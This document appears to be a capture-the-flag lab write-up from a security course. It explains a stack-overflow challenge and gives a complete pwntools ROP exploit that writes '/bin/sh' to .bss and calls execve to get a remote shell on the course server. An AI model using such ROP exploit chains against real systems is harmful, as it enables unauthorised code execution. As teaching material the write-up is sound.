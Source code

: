 ```yaml
---
title: Simple PWN - 0x12(Lab - `rop++`)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN - 0x12(Lab - `rop++`)
###### tags: `CTF` `PWN` `eductf`

challenge: `nc edu-ctf.zoolab.org 10004`

## Original Code
```cpp!=
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char buf[0x10];
    const char *msg = "show me rop\n> ";

    write(1, msg, strlen(msg));
    read(0, buf, 0x200);

    return 0;
}
```
```makefile!
gcc -fno-stack-protector -static -o chal rop++.c
```

## Analyze
* Obviously buffer overflow!!!
* Check protector
    ```bash!
    $ checksec chal
    [*] '/home/sbk6401/NTUCS/PWN/Lab/rop++/share/chal'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    ```

* Preliminary idea is using `ROP` chain and get shell, but the problem is where can I write `/bin/sh\x00`? We can use `vmmap` to observe where section is writable and readable → `0x4c5000~0x4c800`
![](https://imgur.com/018Nk8F.png)
    ```bash!
    $ readelf -S chal
    ...
    [25] .bss              NOBITS           00000000004c72a0  000c6290
           0000000000005980  0000000000000000  WA       0     0     32
    ...
    ```
    We can use <font color="FF0000">`.bss` section(`0x4c72a0`)</font> to write parameter `/bin/sh\x00`
    * <font color="FF0000">Note that</font>, because `ASLR` is enabled, so we cannot write `/bin/sh\x00` to stack, in addition, `PIE` is unable, so that we can write and read data from `.bss` section with fixed address

## Exploit - `ROP`
1. Write `ROP` chain in `buf` parameter
    ```bash!
    $ ROPgadget --binary chal --only "pop|leave|ret|syscall" --multibr > rop_gadget
    $ vim rop_gadget
    ```
    ```python!
    pop_rax_ret = 0x447b27
    pop_rdi_ret = 0x401e3f
    pop_rsi_ret = 0x409e6e
    pop_rdx_rbx_ret = 0x47ed0b
    syscall_ret = 0x414506
    leave_ret = 0x401797
    ```
2. Construct `ROP` chain
In order to achieve our idea, we need another read to write `/bin/sh\x00` to `.bss` section
    ```python!
    ROP_read = flat(
        # call read function
        pop_rax_ret, 0,
        pop_rdi_ret, 0,
        pop_rsi_ret, 0x4c72a0,
        pop_rdx_rbx_ret, 0x100, 0,
        syscall_ret,    
    )
    ```
    Then we need another `ROP` chain to call `shell`
    ```python!
    ROP_shell = flat(
        # Get shell
        pop_rax_ret, 0x3b,
        pop_rdi_ret, 0x4c72a0,
        pop_rsi_ret, 0,
        pop_rdx_rbx_ret, 0, 0,
        syscall_ret,

    )
    ```
    * Note that `0x4c72a0` is the beginning of `.bss` section
3. Send payload
    ```python!
    binsh = 0x68732f6e69622f #'/bin/sh\x00'
    r.sendafter("show me rop\n>", b'a'*0x28 + ROP_read + ROP_shell)
    r.send(flat(binsh))
    ```
4. Then we get shell and read flag
![](https://imgur.com/mLAdXz1.png)
* Whole exploit
    :::spoiler code
    ```python!
    from pwn import *

    #r = process('./chal')
    r = remote('edu-ctf.zoolab.org', 10003)
    raw_input()
    context.arch = 'amd64'

    pop_rax_ret = 0x447b27
    pop_rdi_ret = 0x401e3f
    pop_rsi_ret = 0x409e6e
    pop_rdx_rbx_ret = 0x47ed0b
    syscall_ret = 0x414506
    leave_ret = 0x401797

    binsh = 0x68732f6e69622f #'/bin/sh\x00'

    ROP_read = flat(
        # call read function
        pop_rax_ret, 0,
        pop_rdi_ret, 0,
        pop_rsi_ret, 0x4c72a0,
        pop_rdx_rbx_ret, 0x100, 0,
        syscall_ret,    
    )

    ROP_shell = flat(
        # Get shell
        pop_rax_ret, 0x3b,
        pop_rdi_ret, 0x4c72a0,
        pop_rsi_ret, 0,
        pop_rdx_rbx_ret, 0, 0,
        syscall_ret,

    )

    r.sendafter("show me rop\n>", b'a'*0x28 + ROP_read + ROP_shell)
    r.send(flat(binsh))

    r.interactive()
    ```
    :::
## Appendix
This payload will call `sys_read` and read something that we send, that is `0x68732f6e69622f`(`/bin/sh\x00`), and then it'll call `sys_execve`.